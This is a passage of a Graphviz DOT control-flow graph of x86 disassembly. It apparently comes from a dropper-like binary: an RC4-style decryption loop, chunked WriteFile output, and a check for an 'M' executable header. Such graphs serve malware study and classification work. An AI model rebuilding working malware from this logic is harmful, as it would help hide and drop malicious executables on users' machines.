a0x00401096movb_ecx__dl -> a0x00401098addl_edx_eax [color="#000000"];
a0x00401098addl_edx_eax -> a0x0040109amovb__20ebp__cl [color="#000000"];
a0x0040109amovb__20ebp__cl -> a0x0040109daddb_al_cl [color="#000000"];
a0x0040109daddb_al_cl -> a0x0040109fmovb_cl__20ebp_ [color="#000000"];
a0x0040109fmovb_cl__20ebp_ -> a0x004010a2movl__16ebp__edx [color="#000000"];
a0x004010a2movl__16ebp__edx -> a0x004010a5addl_0x1UINT8_edx [color="#000000"];
a0x004010a5addl_0x1UINT8_edx -> a0x004010a8movl_edx__16ebp_ [color="#000000"];
a0x004010a8movl_edx__16ebp_ -> a0x004010abmovl__20ebp__eax [color="#000000"];
a0x004010abmovl__20ebp__eax -> a0x004010aeandl_0xffUINT32_eax [color="#000000"];
a0x004010aeandl_0xffUINT32_eax -> a0x004010b3movl__8ebp__ecx [color="#000000"];
a0x004010b3movl__8ebp__ecx -> a0x004010b6addl__12ebp__ecx [color="#000000"];
a0x004010b6addl__12ebp__ecx -> a0x004010b9movl__8ebp__edx [color="#000000"];
a0x004010b9movl__8ebp__edx -> a0x004010bcmovb_edxeax__al [color="#000000"];
a0x004010bcmovb_edxeax__al -> a0x004010bfmovb_al_ecx_ [color="#000000"];
a0x004010bfmovb_al_ecx_ -> a0x004010c1movl__20ebp__ecx [color="#000000"];
a0x004010c1movl__20ebp__ecx -> a0x004010c4andl_0xffUINT32_ecx [color="#000000"];
a0x004010c4andl_0xffUINT32_ecx -> a0x004010camovl__8ebp__edx [color="#000000"];
a0x004010camovl__8ebp__edx -> a0x004010cdmovb__4ebp__al [color="#000000"];
a0x004010cdmovb__4ebp__al -> a0x004010d0movb_al_edxecx_ [color="#000000"];
a0x004010d0movb_al_edxecx_ -> a0x004010d3jmp_0x0040105f [color="#000000"];
a0x004010d3jmp_0x0040105f -> a0x0040105fmovl__12ebp__eax [color="#000000"];
a0x0040105fmovl__12ebp__eax -> a0x00401062addl_0x1UINT8_eax [color="#000000"];
a0x00401062addl_0x1UINT8_eax -> a0x00401065movl_eax__12ebp_ [color="#000000"];
a0x00401065movl_eax__12ebp_ -> a0x00401068movl__16ebp__eax [color="#000000"];
a0x00401068movl__16ebp__eax -> a0x0040106bcltd_ [color="#000000"];
a0x0040106bcltd_ -> a0x0040106cidivl_0xcebp__eax [color="#000000"];
a0x0040106cidivl_0xcebp__eax -> a0x0040106fmovl_edx__16ebp_ [color="#000000"];
a0x0040106fmovl_edx__16ebp_ -> a0x00401072cmpl_0x100UINT32__12ebp_ [color="#000000"];
a0x00401079jnl_0x004010d5 -> a0x004010d5movl_ebp_esp [color="#000000",label="T"];
a0x004010d5movl_ebp_esp -> a0x004010d7popl_ebp [color="#000000"];
a0x004010d7popl_ebp -> a0x004010d8ret [color="#000000"];
a0x004010d8ret -> a0x00401699addl_0xcUINT8_esp [color="#000000"];
a0x00401699addl_0xcUINT8_esp -> a0x0040169cleal__2436ebp__eax [color="#000000"];
a0x0040169cleal__2436ebp__eax -> a0x004016a2pushl_eax [color="#000000"];
a0x004016a2pushl_eax -> a0x004016a3movl__1552ebp__ecx [color="#000000"];
a0x004016a3movl__1552ebp__ecx -> a0x004016a9imull_0x410UINT32_ecx_ecx [color="#000000"];
a0x004016a9imull_0x410UINT32_ecx_ecx -> a0x004016afmovl_0x40300cecx__edx [color="#000000"];
a0x004016afmovl_0x40300cecx__edx -> a0x004016b5pushl_edx [color="#000000"];
a0x004016b5pushl_edx -> a0x004016b6leal__1028ebp__eax [color="#000000"];
a0x004016b6leal__1028ebp__eax -> a0x004016bcpushl_eax [color="#000000"];
a0x004016bcpushl_eax -> a0x004016bdcall_0x004010d9 [color="#000000"];
a0x004016bdcall_0x004010d9 -> a0x004010d9pushl_ebp [color="#000000"];
a0x004010d9pushl_ebp -> a0x004010damovl_esp_ebp [color="#000000"];
a0x004010damovl_esp_ebp -> a0x004010dcsubl_0x14UINT8_esp [color="#000000"];
a0x004010dcsubl_0x14UINT8_esp -> a0x004010dfpushl_esi [color="#000000"];
a0x004010dfpushl_esi -> a0x004010e0movl_0x10ebp__eax [color="#000000"];
a0x004010e0movl_0x10ebp__eax -> a0x004010e3movl_eax__8ebp_ [color="#000000"];
a0x004010e3movl_eax__8ebp_ -> a0x004010e6movl_0x10ebp__ecx [color="#000000"];
a0x004010e6movl_0x10ebp__ecx -> a0x004010e9movb_0x100ecx__dl [color="#000000"];
a0x004010e9movb_0x100ecx__dl -> a0x004010efmovb_dl__12ebp_ [color="#000000"];
a0x004010efmovb_dl__12ebp_ -> a0x004010f2movl_0x10ebp__eax [color="#000000"];
a0x004010f2movl_0x10ebp__eax -> a0x004010f5movb_0x101eax__cl [color="#000000"];
a0x004010f5movb_0x101eax__cl -> a0x004010fbmovb_cl__20ebp_ [color="#000000"];
a0x004010fbmovb_cl__20ebp_ -> a0x004010femovl_0x0UINT32__16ebp_ [color="#000000"];
a0x004010femovl_0x0UINT32__16ebp_ -> a0x00401105jmp_0x00401110 [color="#000000"];
a0x00401105jmp_0x00401110 -> a0x00401110movl__16ebp__eax [color="#000000"];
a0x00401110movl__16ebp__eax -> a0x00401113cmpl_0xcebp__eax [color="#000000"];
a0x00401113cmpl_0xcebp__eax -> a0x00401116jge_0x004011a8 [color="#000000"];
a0x00401116jge_0x004011a8 -> a0x0040111cmovb__12ebp__cl [color="#000000",label="F"];
a0x0040111cmovb__12ebp__cl -> a0x0040111faddb_0x1UINT8_cl [color="#000000"];
a0x0040111faddb_0x1UINT8_cl -> a0x00401122movb_cl__12ebp_ [color="#000000"];
a0x00401122movb_cl__12ebp_ -> a0x00401125movl__12ebp__edx [color="#000000"];
a0x00401125movl__12ebp__edx -> a0x00401128andl_0xffUINT32_edx [color="#000000"];
a0x00401128andl_0xffUINT32_edx -> a0x0040112emovl__8ebp__eax [color="#000000"];
a0x0040112emovl__8ebp__eax -> a0x00401131movb_eaxedx__cl [color="#000000"];
a0x00401131movb_eaxedx__cl -> a0x00401134movb_cl__4ebp_ [color="#000000"];
a0x00401134movb_cl__4ebp_ -> a0x00401137movb__20ebp__dl [color="#000000"];
a0x00401137movb__20ebp__dl -> a0x0040113aaddb__4ebp__dl [color="#000000"];
a0x0040113aaddb__4ebp__dl -> a0x0040113dmovb_dl__20ebp_ [color="#000000"];
a0x0040113dmovb_dl__20ebp_ -> a0x00401140movl__20ebp__eax [color="#000000"];
a0x00401140movl__20ebp__eax -> a0x00401143andl_0xffUINT32_eax [color="#000000"];
a0x00401143andl_0xffUINT32_eax -> a0x00401148movl__12ebp__ecx [color="#000000"];
a0x00401148movl__12ebp__ecx -> a0x0040114bandl_0xffUINT32_ecx [color="#000000"];
a0x0040114bandl_0xffUINT32_ecx -> a0x00401151movl__8ebp__edx [color="#000000"];
a0x00401151movl__8ebp__edx -> a0x00401154movl__8ebp__esi [color="#000000"];
a0x00401154movl__8ebp__esi -> a0x00401157movb_esieax__al [color="#000000"];
a0x00401157movb_esieax__al -> a0x0040115amovb_al_edxecx_ [color="#000000"];
a0x0040115amovb_al_edxecx_ -> a0x0040115dmovl__20ebp__ecx [color="#000000"];
a0x0040115dmovl__20ebp__ecx -> a0x00401160andl_0xffUINT32_ecx [color="#000000"];
a0x00401160andl_0xffUINT32_ecx -> a0x00401166movl__8ebp__edx [color="#000000"];
a0x00401166movl__8ebp__edx -> a0x00401169movb__4ebp__al [color="#000000"];
a0x00401169movb__4ebp__al -> a0x0040116cmovb_al_edxecx_ [color="#000000"];
a0x0040116cmovb_al_edxecx_ -> a0x0040116fmovl__12ebp__ecx [color="#000000"];
a0x0040116fmovl__12ebp__ecx -> a0x00401172andl_0xffUINT32_ecx [color="#000000"];
a0x00401172andl_0xffUINT32_ecx -> a0x00401178movl__8ebp__edx [color="#000000"];
a0x00401178movl__8ebp__edx -> a0x0040117bmovb__4ebp__al [color="#000000"];
a0x0040117bmovb__4ebp__al -> a0x0040117eaddb_edxecx__al [color="#000000"];
a0x0040117eaddb_edxecx__al -> a0x00401181movb_al__4ebp_ [color="#000000"];
a0x00401181movb_al__4ebp_ -> a0x00401184movl__4ebp__ecx [color="#000000"];
a0x00401184movl__4ebp__ecx -> a0x00401187andl_0xffUINT32_ecx [color="#000000"];
a0x00401187andl_0xffUINT32_ecx -> a0x0040118dmovl_0x8ebp__edx [color="#000000"];
a0x0040118dmovl_0x8ebp__edx -> a0x00401190addl__16ebp__edx [color="#000000"];
a0x00401190addl__16ebp__edx -> a0x00401193movl__8ebp__eax [color="#000000"];
a0x00401193movl__8ebp__eax -> a0x00401196movb_edx__dl [color="#000000"];
a0x00401196movb_edx__dl -> a0x00401198xorb_eaxecx__dl [color="#000000"];
a0x00401198xorb_eaxecx__dl -> a0x0040119bmovl_0x8ebp__eax [color="#000000"];
a0x0040119bmovl_0x8ebp__eax -> a0x0040119eaddl__16ebp__eax [color="#000000"];
a0x0040119eaddl__16ebp__eax -> a0x004011a1movb_dl_eax_ [color="#000000"];
a0x004011a1movb_dl_eax_ -> a0x004011a3jmp_0x00401107 [color="#000000"];
a0x004011a3jmp_0x00401107 -> a0x00401107movl__16ebp__edx [color="#000000"];
a0x00401107movl__16ebp__edx -> a0x0040110aaddl_0x1UINT8_edx [color="#000000"];
a0x0040110aaddl_0x1UINT8_edx -> a0x0040110dmovl_edx__16ebp_ [color="#000000"];
a0x0040110dmovl_edx__16ebp_ -> a0x00401110movl__16ebp__eax [color="#000000"];
a0x00401116jge_0x004011a8 -> a0x004011a8movl_0x10ebp__ecx [color="#000000",label="T"];
a0x004011a8movl_0x10ebp__ecx -> a0x004011abmovb__12ebp__dl [color="#000000"];
a0x004011abmovb__12ebp__dl -> a0x004011aemovb_dl_0x100ecx_ [color="#000000"];
a0x004011aemovb_dl_0x100ecx_ -> a0x004011b4movl_0x10ebp__eax [color="#000000"];
a0x004011b4movl_0x10ebp__eax -> a0x004011b7movb__20ebp__cl [color="#000000"];
a0x004011b7movb__20ebp__cl -> a0x004011bamovb_cl_0x101eax_ [color="#000000"];
a0x004011bamovb_cl_0x101eax_ -> a0x004011c0popl_esi [color="#000000"];
a0x004011c0popl_esi -> a0x004011c1movl_ebp_esp [color="#000000"];
a0x004011c1movl_ebp_esp -> a0x004011c3popl_ebp [color="#000000"];
a0x004011c3popl_ebp -> a0x004011c4ret [color="#000000"];
a0x004011c4ret -> a0x004016c2addl_0xcUINT8_esp [color="#000000"];
a0x004016c2addl_0xcUINT8_esp -> a0x004016c5jmp_0x0040164f [color="#000000"];
a0x004016c5jmp_0x0040164f -> a0x0040164fmovl__1552ebp__ecx [color="#000000"];
a0x0040164fmovl__1552ebp__ecx -> a0x00401655addl_0x1UINT8_ecx [color="#000000"];
a0x00401655addl_0x1UINT8_ecx -> a0x00401658movl_ecx__1552ebp_ [color="#000000"];
a0x00401658movl_ecx__1552ebp_ -> a0x0040165ecmpl_0x5UINT8__1552ebp_ [color="#000000"];
a0x00401665jae_0x004016c7 -> a0x004016c7cmpl_0x0UINT8__1556ebp_ [color="#000000",label="T"];
a0x004016c7cmpl_0x0UINT8__1556ebp_ -> a0x004016cejne_0x004016e8 [color="#000000"];
a0x004016cejne_0x004016e8 -> a0x004016d0movb__1028ebp__cl [color="#000000",label="F"];
a0x004016d0movb__1028ebp__cl -> a0x004016d6movb_cl__1636ebp_ [color="#000000"];
a0x004016d6movb_cl__1636ebp_ -> a0x004016dcmovb__1027ebp__dl [color="#000000"];
a0x004016dcmovb__1027ebp__dl -> a0x004016e2movb_dl__1560ebp_ [color="#000000"];
a0x004016e2movb_dl__1560ebp_ -> a0x004016e8pushl_0x0UINT8 [color="#000000"];
a0x004016e8pushl_0x0UINT8 -> a0x004016ealeal__1632ebp__eax [color="#000000"];
a0x004016ealeal__1632ebp__eax -> a0x004016f0pushl_eax [color="#000000"];
a0x004016f0pushl_eax -> a0x004016f1pushl_0x200UINT32 [color="#000000"];
a0x004016f1pushl_0x200UINT32 -> a0x004016f6leal__1028ebp__ecx [color="#000000"];
a0x004016f6leal__1028ebp__ecx -> a0x004016fcpushl_ecx [color="#000000"];
a0x004016fcpushl_ecx -> a0x004016fdmovl__2176ebp__edx [color="#000000"];
a0x004016fdmovl__2176ebp__edx -> a0x00401703pushl_edx [color="#000000"];
a0x00401703pushl_edx -> a0x00401704call_WriteFile_kernel32_dll [color="#000000"];
a0x00401704call_WriteFile_kernel32_dll -> WriteFile_kernel32_dll [color="#000000"];
WriteFile_kernel32_dll -> a0x0040170ajmp_0x00401604 [color="#000000"];
a0x0040170ajmp_0x00401604 -> a0x00401604movl__1556ebp__eax [color="#000000"];
a0x00401604movl__1556ebp__eax -> a0x0040160aaddl_0x200UINT32_eax [color="#000000"];
a0x0040160aaddl_0x200UINT32_eax -> a0x0040160fmovl_eax__1556ebp_ [color="#000000"];
a0x0040160fmovl_eax__1556ebp_ -> a0x00401615movl__1556ebp__ecx [color="#000000"];
a0x004016cejne_0x004016e8 -> a0x004016e8pushl_0x0UINT8 [color="#000000",label="T"];
a0x00401621jae_0x0040170f -> a0x0040170fmovl__2176ebp__eax [color="#000000",label="T"];
a0x0040170fmovl__2176ebp__eax -> a0x00401715pushl_eax [color="#000000"];
a0x00401715pushl_eax -> a0x00401716call_CloseHandle_kernel32_dll [color="#000000"];
a0x00401716call_CloseHandle_kernel32_dll -> CloseHandle_kernel32_dll [color="#000000"];
CloseHandle_kernel32_dll -> a0x0040171cmovsbl__1636ebp__ecx [color="#000000"];
a0x0040171cmovsbl__1636ebp__ecx -> a0x00401723cmpl_0x4dUINT8_ecx [color="#000000"];
a0x00401723cmpl_0x4dUINT8_ecx -> a0x00401726jne_0x00401821 [color="#000000"];
a0x00401726jne_0x00401821 -> a0x00401821movl__4ebp__edx [color="#000000",label="T"];
a0x00401864ret -> a0x004018aeaddl_0xcUINT8_esp [color="#000000"];
a0x004018aeaddl_0xcUINT8_esp -> a0x004018b1pushl_0x0UINT8 [color="#000000"];
a0x004018b1pushl_0x0UINT8 -> a0x004018b3pushl_0x1UINT8 [color="#000000"];
a0x004018b3pushl_0x1UINT8 -> a0x004018b5pushl_0x4045e8UINT32 [color="#000000"];
a0x004018b5pushl_0x4045e8UINT32 -> a0x004018bacall_0x00401475 [color="#000000"];
a0x004018bacall_0x00401475 -> a0x00401475pushl_ebp [color="#000000"];
a0x00401864ret -> a0x004018bfaddl_0xcUINT8_esp [color="#000000"];
a0x004018bfaddl_0xcUINT8_esp -> a0x004018c2pushl_0x0UINT8 [color="#000000"];
a0x004018c2pushl_0x0UINT8 -> a0x004018c4pushl_0x1UINT8 [color="#000000"];
a0x004018c4pushl_0x1UINT8 -> a0x004018c6pushl_0x404618UINT32 [color="#000000"];
a0x004018c6pushl_0x404618UINT32 -> a0x004018cbcall_0x00401475 [color="#000000"];
a0x004018cbcall_0x00401475 -> a0x00401475pushl_ebp [color="#000000"];
a0x00401864ret -> a0x004018d0addl_0xcUINT8_esp [color="#000000"];
a0x004018d0addl_0xcUINT8_esp -> a0x004018d3pushl_0x0UINT8 [color="#000000"];
a0x004018d3pushl_0x0UINT8 -> a0x004018d5pushl_0x1UINT8 [color="#000000"];
a0x004018d5pushl_0x1UINT8 -> a0x004018d7pushl_0x404648UINT32 [color="#000000"];
a0x004018d7pushl_0x404648UINT32 -> a0x004018dccall_0x00401475 [color="#000000"];
a0x004018dccall_0x00401475 -> a0x00401475pushl_ebp [color="#000000"];
a0x00401864ret -> a0x004018e1addl_0xcUINT8_esp [color="#000000"];
a0x004018e1addl_0xcUINT8_esp -> a0x004018e4pushl_0x0UINT8 [color="#000000"];
a0x004018e4pushl_0x0UINT8 -> a0x004018e6pushl_0x1UINT8 [color="#000000"];
a0x004018e6pushl_0x1UINT8 -> a0x004018e8pushl_0x404674UINT32 [color="#000000"];
a0x004018e8pushl_0x404674UINT32 -> a0x004018edcall_0x00401475 [color="#000000"];
a0x004018edcall_0x00401475 -> a0x00401475pushl_ebp [color="#000000"];
a0x00401864ret -> a0x004018f2addl_0xcUINT8_esp [color="#000000"];
a0x004018f2addl_0xcUINT8_esp -> a0x004018f5pushl_0x0UINT8 [color="#000000"];
a0x004018f5pushl_0x0UINT8 -> a0x004018f7pushl_0x1UINT8 [color="#000000"];
a0x004018f7pushl_0x1UINT8 -> a0x004018f9pushl_0x404698UINT32 [color="#000000"];
a0x004018f9pushl_0x404698UINT32 -> a0x004018fecall_0x00401475 [color="#000000"];
a0x004018fecall_0x00401475 -> a0x00401475pushl_ebp [color="#000000"];
a0x00401864ret -> a0x00401903addl_0xcUINT8_esp [color="#000000"];
a0x00401903addl_0xcUINT8_esp -> a0x00401906pushl_0x1UINT8 [color="#000000"];
a0x00401906pushl_0x1UINT8 -> a0x00401908pushl_0x0UINT8 [color="#000000"];
a0x00401908pushl_0x0UINT8 -> a0x0040190apushl_0x4046bcUINT32 [color="#000000"];
a0x0040190apushl_0x4046bcUINT32 -> a0x0040190fcall_0x00401475 [color="#000000"];
a0x0040190fcall_0x00401475 -> a0x00401475pushl_ebp [color="#000000"];
}
